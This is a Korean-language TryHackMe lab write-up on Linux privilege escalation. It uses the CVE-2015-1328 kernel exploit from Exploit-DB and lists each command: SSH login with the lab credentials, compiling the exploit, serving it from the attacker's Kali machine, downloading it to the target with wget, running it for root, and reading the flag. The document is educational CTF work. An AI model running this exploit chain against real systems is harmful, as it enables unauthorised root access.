 ## Privilege Escalation: Kernel Exploits
> TryHackMe에 커널 익스플로잇을 이용하여 권한 상승에 관한 실습을 했습니다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.42.60
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **커널 버전**: `Linux 3.13.0-24-generic`
- **실습 일자**: 2025-04-18

---

### 2. 실습 과정

## 2.1 **SSH 접속**
- 타겟 머신에 SSH로 접근: karen 계정과 주어진 비밀번호로 로그인 하였다.

```bash
ssh karen@10.10.42.60
# Password1 입력 후 로그인
```

![SSH 연결 및 로그인](/screenshots/ssh_connect.png)

## 2.2 **커널 버전 확인**

- 커널 버전 확인: uname -a 명령어로 커널 버전을 확인하고, 3.13.0-24-generic 버전이라는 것을 확인하였다.

```bash
uname -a
```
![uname -a 출력](/screenshots/uname.png)

- 커널 버전이 CVE-2015-1328에 취약하다는 사실을 구글링을 통해 확인하였다.

- Exploit-DB에서 해당 취약점에 대한 37292.c 소스코드를 다운로드하였다.
[Exploit-DB - CVE-2015-1328](https://www.exploit-db.com/exploits/37292)

## 2.3 **Kali에서 SSH 서버 시작** 

```bash
systemctl start ssh
```
![SSH 서비스 시작](/screenshots/start_ssh.png)


## 2.4 **Exploit 다운로드 및 전송 (Windows → Kali)**  
- Windows → Kali로 소스 전송: Windows PowerShell의 `scp`를 통해 Kali로 소스 파일을 전송하였다. (실제 IP는 모자이크)

```bash powershell
scp D:/exploit_file/37292.c root@<MyRoot-ip>:/root
```
![SCP 전송](/screenshots/window_scp.png)


## 2.5 **Exploit 정적 컴파일**  
- `gcc 37292.c -o exploit -static` 명령어를 사용하여 정적으로 컴파일 하였다.

```bash
gcc 37292.c -o exploit -static
```
![정적 컴파일](/screenshots/compile.PNG)

## 2.6 **타겟 머신으로 Exploit 전송**  
- Kali에서 `python3 -m http.server 8000`으로 HTTP 서버를 열고, 타겟 머신에서 `wget`으로 exploit을 /tmp에 다운로드하였다.

```bash
python3 -m http.server 8000
wget http://<kali-ip>:8000/exploit -O /tmp/exploit
```
![wget 전송](/screenshots/http_server_wget.PNG)

## 2.7 **실행 및 루트 획득** 

- `chmod +x exploit` 후 `./exploit`을 실행하여 루트 권한을 획득하였다. 후에 `find / -name flag1.txt`로 플래그 파일 경로를 찾고, `cat /home/matt/flag1.txt`로 내용 확인하였다.

```bash
chmod +x exploit
./exploit
id
find / -name flag1.txt
cat /home/matt/flag1.txt
```
![익스플로잇 실행 및 플래그 획득](/screenshots/exploit_flag.PNG)


### 3. 최종 결과
- 루트 쉘 획득 성공 (`uid=0(root)`)
- 플래그 위치: `/home/matt/flag1.txt`
- 플래그 내용: `THM-28392872729920`



